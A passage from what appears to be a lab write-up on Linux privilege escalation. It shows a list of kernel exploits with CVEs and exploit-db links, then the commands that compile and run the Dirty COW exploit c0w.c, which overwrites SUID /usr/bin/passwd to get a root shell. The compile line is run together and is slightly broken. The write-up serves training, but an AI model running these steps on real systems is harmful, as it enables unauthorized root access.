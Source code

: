 ```bash
      Alt: econet       CVE-2010-4073
      Source: http://www.exploit-db.com/exploits/17787
  [8] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [9] pktcdvd
      CVE-2010-3437
      Source: http://www.exploit-db.com/exploits/15150
  [10] ptrace_kmod2
      Alt: ia32syscall,robert_you_suck       CVE-2010-3301
      Source: http://www.exploit-db.com/exploits/15023
  [11] rawmodePTY
      CVE-2014-0196
      Source: http://packetstormsecurity.com/files/download/126603/cve-2014-0196-md.c
  [12] rds
      CVE-2010-3904
      Source: http://www.exploit-db.com/exploits/15285
  [13] reiserfs
      CVE-2010-1146
      Source: http://www.exploit-db.com/exploits/12130
  [14] video4linux
      CVE-2010-3081
      Source: http://www.exploit-db.com/exploits/15024

root@debian:/home/user/tools/kernel-exploits# 

```

Exploit code for Dirty COW can be found at **`/home/user/tools/kernel-exploits/dirtycow/c0w.c`**. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of `/usr/bin/passwd` is made at `/tmp/bak`.

Compile the code and run it (note that it may take several minutes to complete):

`gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w./c0w`
<img width="1700" height="578" alt="LPE25" src="https://github.com/user-attachments/assets/5a0daba2-cc76-4f6c-8084-e8a693b07639" />


Once the exploit completes, run /usr/bin/passwd to gain a root shell:

`/usr/bin/passwd`

Several tools have been written which help find potential privilege escalations on Linux

We have successfully completed our room and learned many valuable lessons. I believe we should consider using automated tools for Linux privilege escalation instead of relying solely on manual methods that involve exposing the machine.

I’d love to hear your thoughts in the comments!

Thank you for reading!
